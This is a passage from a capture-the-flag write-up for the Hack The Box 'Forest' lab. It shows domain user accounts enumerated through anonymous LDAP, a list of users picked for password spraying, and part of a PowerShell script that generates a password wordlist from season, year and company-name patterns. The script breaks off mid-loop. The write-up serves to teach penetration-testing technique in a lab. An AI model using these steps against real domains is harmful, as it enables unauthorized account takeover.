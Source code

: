 ```
HealthMailbox83d6781  HealthMailbox83d6781be36b4bbf8893b03c2ee379ab@htb.local  2019-09-19 07:57:17.065809  <never>             
HealthMailboxfd87238  HealthMailboxfd87238e536e49e08738480d300e3772@htb.local  2019-09-19 07:57:27.487679  <never>             
HealthMailboxb01ac64  HealthMailboxb01ac647a64648d2a5fa21df27058a24@htb.local  2019-09-19 07:57:37.878559  <never>             
HealthMailbox7108a4e  HealthMailbox7108a4e350f84b32a7a90d8e718f78cf@htb.local  2019-09-19 07:57:48.253341  <never>             
HealthMailbox0659cc1  HealthMailbox0659cc188f4c4f9f978f6c2142c4181e@htb.local  2019-09-19 07:57:58.643994  <never>             
sebastien                                             2019-09-19 20:29:59.544725  2019-09-22 18:29:29.586227 
lucinda                                               2019-09-19 20:44:13.233891  <never>             
svc-alfresco                                          2022-04-05 15:18:27.420771  2019-09-23 07:09:47.931194 
andy                                                  2019-09-22 18:44:16.291082  <never>             
mark                                                  2019-09-20 18:57:30.243568  <never>             
santi                                                 2019-09-20 19:02:55.134828  <never> 
```

*Because LDAP Anonymous access is enabled,* this gets us **all** the users in the domain. The ones below look organic enough for us to try spraying.
- Administrator
- sebastien
- lucinda
- svc-alfresco
- andy
- mark
- santi

### Wordlist generation from common username schemes

*Since we need a wordlist,* We create a basic one from the most common passwords (like "P@ssw0rd" etc.) and from **commonly used password convention schemes** like:
- Season + Year
- Season + Year + !
- Season + Special Char + Year
- Company Name + Year
- Company Name + Year + !
- Company Name + Special Char + Year

We will pretend that `Forest` is the company name even though it's a CTF. Because that's what I would do in a real pentest :D
Also, the year this machine has been launched is 2019. So we will use that year as well as a couple of years around it (2017, 2018, 2020 and 2021).

I write a quick `PowerShell` script for this:

```powershell
$CompanyName = "Forest"
$Seasons = 'Summer', 'Winter', 'Spring', 'Fall'
$Years = 2017..2021
$Special_Chars = '!@#$%^&*'.ToCharArray()
$Wordlist = @()

Foreach($Year in $Years){
	$Wordlist += "$CompanyName$Year"
	$Wordlist += "$CompanyName$Year!"
	Foreach($Season in $Seasons){
		$Wordlist += "$Season$Year"
		$Wordlist += "$Season$Year!"
		Foreach($Char in $Special_Chars){
```